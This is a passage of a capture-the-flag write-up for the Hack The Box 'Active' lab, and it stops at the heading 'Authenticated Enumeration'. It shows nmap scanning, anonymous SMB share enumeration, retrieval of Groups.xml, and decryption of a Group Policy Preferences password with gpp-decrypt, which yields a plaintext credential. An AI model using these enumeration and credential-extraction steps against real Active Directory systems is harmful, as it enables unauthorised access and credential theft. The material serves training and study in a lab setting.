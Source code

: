 # Initial Enumeration

All TCP port scan with Service Version enumeration.
``` bash
nmap -sS -sV -sC -T3 -p- <ip-address>
```

Some of the services found on the machine indicate that it is a Domain Controller, or as such capabilities;

```bash
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1) | dns-nsid: |_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39) 
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-11-27 10:08:23Z) 135/tcp open msrpc Microsoft Windows RPC 
139/tcp open netbios-ssn Microsoft Windows netbios-ssn 
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name) 
445/tcp open microsoft-ds? 464/tcp open kpasswd5? 
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open tcpwrapped 
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
```
 DNS, LDAP and Kerberos services are active on this machine.
 The domain is found in the Service enumeration as "active.htb" so i added it to the etc/hosts file.
`echo "<ip-address> active.htb" | sudo tee -a /etc/hosts`

### SMB Enumeration
 Using **smb-client** I enumerate the shares present on the SMB server:

```zsh:
smbclient -L //<ip-address>
Password for [WORKGROUP\ikosaedr]:
Anonymous login successful
Sharename  Type  Comment
---------  ----  -------
ADMIN$     Disk  Remote Admin
C$         Disk  Default share
IPC$       IPC   Remote IPC
NETLOGON   Disk  Logon server share
Replication Disk
SYSVOL     Disk  Logon server share
Users      Disk
SMB1 disabled -- no workgroup available
```

The only share it is possible to access with anonymous credentials is the “Replication” share, which seems to
be a copy of SYSVOL . This is potentially interesting from a privilege escalation perspective as Group Policies
(and Group Policy Preferences) are stored in the SYSVOL share, which is world-readable to authenticated
users.
We connect to the share and download its contents recursively, noticing the Groups.xml file in particular,
which typically contains username/password combinations that can be useful for exploitation.

```zsh:
smbclient //<ip-address>/Replication
Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
<...SNIP...>
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-
00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as
active.htb/Policies/{31B2F340-016D-11D2-945F-
00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (12.4 KiloBytes/sec) (average 15.5
KiloBytes/sec)
<...SNIP...>
```

The *Groups.xml* reads as follows:
```xml:
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-
8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06"
uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName=""
description=""
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw
/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
userName="active.htb\SVC_TGS"/></User>
</Groups>
```

From this file we get an username, apparently for a service account, "*SVC_TGS*" and an encrypted password.

We can decrypt the password with *gpp-decrypt*:
```zsh:
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Now we have an username and a password, that we can use to further enumerate the machine.

## Authenticated Enumeration

